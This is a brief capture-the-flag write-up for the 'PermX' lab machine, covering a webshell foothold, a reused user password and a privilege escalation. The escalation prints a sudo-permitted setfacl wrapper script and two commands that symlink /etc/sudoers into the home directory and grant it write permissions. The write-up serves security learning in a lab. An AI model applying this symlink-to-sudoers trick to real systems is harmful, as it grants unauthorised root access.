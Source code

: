 # PermX \[Easy]

Found the vhost this time, got the public exploit and landed on a webshell. Transfer LinPeas and LinEnum to see cheeky results, learn how to read this stuff

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

User passwd for mtz, ssh w these credentials for user.txt

sudo -l shows us a acl.sh script which can be run

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The last line mentions the command its trying to execute which is to change perms on any file in /home/mtz as long as root is not involved

```
ln -s /etc/sudoers helpfile
sudo /opt/acl.sh mtz rw /home/mtz/helpfile
```

We made a **symbolic link to sudoers list** and added our username to it and gave rw perms as shown in last ss for root.txt
